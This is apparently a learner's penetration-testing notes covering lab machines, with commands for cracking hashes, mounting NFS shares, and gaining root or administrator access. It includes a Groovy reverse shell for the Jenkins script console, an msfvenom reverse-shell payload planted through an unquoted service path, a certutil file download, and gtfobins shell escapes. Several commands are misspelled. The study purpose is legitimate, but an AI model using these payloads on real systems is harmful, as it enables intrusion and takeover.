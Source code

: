 ###### Walk through - Blue
SMB exploit related vulnerability Eternal Blue attack - #MS17-010

###### Walk through - Academy
Linux machine 
vulnerable to anonymous login

`hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt`
**-m 0** - mentions the module of #md5

#directorylisting #directorybusting
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://sitename/FUZZ`
#fuzz the site using ffuf tool

[[crontab]]will run in a periodic execution, whenever the systems restarts. [jobscheduler]

#pspy - listing out all the process running in machine
#Resource: https://github.com/DominicBreuker/pspy

###### Walk through - Dev

nfs - network file share 
(Remote procedure call - you can use the RPC on client/ server applications which uses windows OS)

IPC                                             vs                   RPC
communication with in devices            communication across devices
integrated keyboard, USB devices       workstations and different machines

if the machine exposed the ==nfs== during nmap scan must try this below command

`showmount -e TargetmachineIP`
`mkdir /mnt/dev`
`mount -t nfs TargetmachineIP:/srv/nfs /mnt/dev`


Cracking the zip password  - **fcrackzip**
`fcrack -v -u -D -p /usr/share/wordlists/rockyou.txt CrackFile.zip`
-v verbose
-u unzip
-D dictionary based 
-p path of the passwords file

Login to #SSH without password using #id_rsa file
`ssh -i id_rsa user@machineIP`

#privilegeescalation on sudo zip using #gtfobins

```bash
K=$(mktemp -u) #make temporary memory in /tmp folder
sudo zip $K /etc/hosts -T -TT 'sh #' 

#creating an hosts file as zip in mktemp 
#-T denotes test zip file integrity, it will check the integrity of the archieve without extracting the file.
#-TT incorrect flag
#'sh #' tries to include the comment as a command and it included as single quotes, which does treated as comment. Instead it will be treated as FileName.	 
```



###### Walk through - Butler

Windows Machine
Windows privilege Escalation 

hacktricks Jenkins

Burpsuite 
	Pitch fork - credentials stuffing with same admin name try with different passwords. 
	cluster bomb - try with diff username and diff passwords

#References: https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security
Logged in with jenkins/jenkins
Status -> Manage Jenkins -> script console

jenkins exploit -> checking for groovy script reverse shell

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Go ahead and run in the script console tab and get a listener opened in attacker machine.

understand about the system information by using these two commands.

`whoami`
`systeminfo`

Similar to wget -> windows having certutil.exe

`certulil.exe -urlcache -f http://ip/file_name File_saving_name`

while running winpeas (windows privilege escalation awesome scripts), you wouldn't be able to get the colors. so it may cause a difficult to understand the severity.
Because ANSI color bit is not default in windows.
To resolve this follow the steps[not applicable for some low level users ] 
1) `REG ADD HKCU\Console /v VirtualTerminalLeve /t REG_DWORD /d 1`
2) Then run the `winpease.exe`

[[PotatoAttack]] - SeImpersonatePrivilege

: With quotes and space =="`C:\Program Files`"==  - it will check the whole path for the exe file 
![[Pasted image 20230714082217.png]]

Vulnerable : Without quotes and space ==`C:\Program Files`== - it will check whether each word is exe or not.
![[Pasted image 20230714082258.png]]

If the file path given without quotes, machine will check before the space whether each word is executable file or not. just like 
`C:\Program.exe` or
`C:\Program Files.exe` or
`C:\Program Files (x86)\Wise\Wise.exe`

So we can be able to inject the malicious file before the actual file. Malicious file runs before the original file. so attack can be able to get the privilege of administrator

Unquoted service path:
![[Pasted image 20230714082606.png]]

Windows Malware generate reverse shell:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=AttackerMachine LPORT=1232 -f exe > Wise.exe`

#windowsserviceStopping 
`sc stop WiseBootAssistant` - stopping of windows services
`sc query WiseBootAssistant` - status of windows services
`sc start WiseBootAssistant` - starting of windows services

After Successful Privilege Escalation on Windows:
![[Pasted image 20230714084550.png]]

###### Walk through - Black Pearl
Linux Machine

#dnsrecon
``` bash
dnsrecon -r 127.0.0.0/24 -n 192.168.23.24 -d somedomain.com

# -r range of ip's
# -n NS_SERVER name server of the ip
# -d domain
```


SUID - Super user identifier
-==rws== r-x r-x = User having super user privileges to run the binary file. Also we can abuse it for an privilege escalation.
SGIP - Super Group identifier
-rwx ==rws== r-x = Group having super user privileges to run the binary file and able to do the privilege escalation.

#find #search 
```bash
find / -type f -perm -4000 2>/dev/null

# / = root directory
# -type f = file type
# -perm -4000 = file permission check for Set UID and other no permissions
# 2>/dev/null = redirects the error output(stderr) to the null device. Discaring the error message while doing the search

''' Read (4) + Write (2) + Execute (1) = 1 (RWX)
	Read (4) + Execute (1) = 5 (RE)
	Write (2) = 2 (W)
'''
```

Privilege Escalation with #gtfobins 
suid in php 

```bash
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```
